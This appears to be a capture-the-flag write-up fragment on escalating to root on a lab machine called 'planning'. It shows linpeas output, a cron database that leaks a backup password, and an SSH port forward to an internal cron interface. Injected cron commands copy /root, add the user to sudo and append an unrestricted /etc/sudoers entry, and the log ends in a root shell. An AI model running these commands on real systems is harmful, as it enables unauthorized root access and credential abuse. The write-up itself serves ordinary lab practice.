



From linpeas:
```
╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/var/log/laurel/audit.log.1
/var/log/laurel/audit.log
/var/log/sysstat/sa04
/var/log/nginx/access.log
/var/log/syslog
/var/log/journal/3b0d524c67754eefbd5162346e0e4a60/system.journal
/var/log/journal/3b0d524c67754eefbd5162346e0e4a60/user-1000.journal
/var/log/auth.log
/home/enzo/.gnupg/trustdb.gpg
/home/enzo/.gnupg/pubring.kbx
/tmp/ignore/lin.txt
/tmp/ignore/lin.sh
/tmp/YvZsUUfEXayH6lLj.stderr
/tmp/YvZsUUfEXayH6lLj.stdout
/opt/crontabs/crontab.db

```

`/opt/crontabs/crontab.db`
```
enzo@planning:/tmp/ignore$ file /opt/crontabs/crontab.db 
/opt/crontabs/crontab.db: New Line Delimited JSON text data

enzo@planning:/tmp/ignore$ cat /opt/crontabs/crontab.db
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ss<SNIP>3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}

```

## Potential reused password
`P4ss<SNIP>3c`
- doesn't work for root ssh

# port forwarding
```
┌──(kali㉿kali)-[~]
└─$ ssh -L 8000:127.0.0.1:8000 enzo@10.10.11.68
enzo@10.10.11.68's password: 
Permission denied, please try again.
enzo@10.10.11.68's password: 

```

Port forwarding sign in



Using discovered creds above grants access


Setting up a new cron job for a shell


Reverse shell did not work. Trying other methods
- usermod -aG sudo enzo && sudo chsh -s /bin/bash enzo
- cp -r /root /tmp/ignore && chown -R enzo:enzo /tmp/ignore

```
enzo@planning:/tmp/ignore/root$ cat root.txt 
b2<SNIP>b8
```

## Getting a root shell
- echo "enzo ALL=(ALL) ALL" | tee -a /etc/sudoers
```
enzo@planning:/tmp/ignore/root/scripts$ sudo su
[sudo] password for enzo: 
root@planning:/tmp/ignore/root/scripts# whoami
root
root@planning:/tmp/ignore/root/scripts# id
uid=0(root) gid=0(root) groups=0(root)

```